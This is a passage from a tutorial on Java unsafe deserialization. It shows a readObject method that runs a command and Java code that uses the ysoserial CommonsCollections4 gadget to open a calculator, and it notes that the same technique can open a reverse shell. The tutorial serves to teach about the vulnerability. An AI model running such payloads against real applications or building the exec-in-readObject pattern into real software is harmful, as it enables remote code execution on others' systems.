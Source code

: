 ```java
    
    
    
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException {
        Runtime.getRuntime().exec(command);
    }
}
```

### Exploiting Unsafe Deserialization

Now if you accept this object serialized, and an attacker sends a malicious crafter payload where the command invokes "calc.exe" this will run and a calculator will open.

This can be much more serious and instead of opening a calculator it can open a reverse meterpreter session and have control over the machine.

Ok, so you're thinking: Yeah, right, and why the hell would anyone do this?

Well, it doesn't need to. A more complex code on readObject could call/instanciate other object, or even use reflection, and through chaining multiple object declarations an attacker could get a flow from a readObject to the Runtime.getRuntime().exec, and a manipulated argument

And now I hear you saying: Thats still not that usual.  
And... it is.

Unfortunately there are a few known libraries, and used in a lot (really, a lot) of Java web applications, that have this flows. So if you use one of them, the objects are loaded in the application classpath, so you are vulnerable, just by having them, since a deserialization can deserialize to any object in the classpath by default.

A tool called [ysoserial](https://github.com/frohoff/ysoserial) is known for generating payloads for this vulnerable libraries, and it has options for apache's commons-collections, groovy, javassist, spring-core and more.

Lets try it out. You can download the jar file and generate a payload through the command line, or you can use it in a project (with maven for example), I'm going with the second one for this scenario.

So lets change the Main method, to generate a ysoserial payload to open calculator, replace the user serialized object by the payload, and deserialize it

```java
public static void main(String[] args) {  
    try {
        //serialize an user object
        User u = new User("Whitepapers");
        serialize(u);
        
        //create a malicious payload. The application will read it thinking it is secure
        ObjectPayload op = new ysoserial.payloads.CommonsCollections4();
        Object payload = op.getObject("calc");
        serialize(payload);
        
        //and this triggers the vulnerability
        u = (User)deserialize(serializedFile);    
    } 
    catch (Exception ex) {
        Logger.getLogger(Main.class.getName()).log(Level.SEVERE, null, ex);
    }
}
```
